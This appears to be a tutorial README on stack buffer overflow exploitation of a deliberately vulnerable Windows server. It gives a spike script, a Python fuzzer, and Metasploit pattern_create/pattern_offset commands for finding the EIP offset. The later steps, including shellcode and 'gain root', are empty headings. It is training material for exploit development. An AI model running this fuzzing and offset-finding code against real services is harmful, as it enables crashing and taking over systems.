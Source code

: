 Open the exe file as admin
Go to Debugger and then File -> Attach and then select the program.

## Step 1: SPIKING (Find vulnerable part of program)

Connect to the vuln application
```bash
nc -nv (ip addr of your windows machine it is running on) (port number): my ip is 10.0.0.52
```
Now throw bunch of charecters in each command and see if any of the commands accepted by the application is vulnerable
TO throw bunch of charecter we use 
```bash
./generic_send_tcp (ip adddr) (port) (some.spk) 
```
some.spk will look like: you can send as many charecter. just try to break the program
```bash
s_readline();
s_string("Some command name to test ");
s_string_variable("0");
```

Look you have to overwrite everything(ESP, EBP) till EIP. EIP will help to get the root access to anything.
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************

## Step 2: Fuzzing (Send bunch of charecter to break the program)
Use the below python code for a fuzzing script to break the specific command.
```bash
#!/usr/bin/python
import sys, socket
from time import sleep

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((target_ip, target_port))
		
		s.send(('TRUN /.:/' + buffer).encode())
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
		
	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```
then do
```bash
chmod +x file.py
```
Then run the file

```bash
./file.py
```

************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 3: Finding the offset (At what point it breaks)

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l (length from the previous output + some random offset to be safe)
```

Create another python file and use the following code:
```bash
#!/usr/bin/python
import sys, socket

# Define target IP and port
target_ip = '10.0.0.52'
target_port = 9999

offset = "(The value from the previous metasploit command)"

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target_ip, target_port))
	
	s.send(('TRUN /.:/' + offset).encode())
	s.close()
	
except:
	print("Error Connecting to server")
	sys.exit()
```
Make the file executable
```bash
chmod +x file.py
```
Then run the file

```bash
./file.py
```

Copy the Number in front of EIP column in immunity debugger and then use the following command

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q (value in front of EIP)
```


************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 4: Overwriting the EIP
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 5: Finding the Bad Charecters
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 6: Finding the right module
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 7: Generating shellcode
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************
## Step 8: Gain Root
************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************




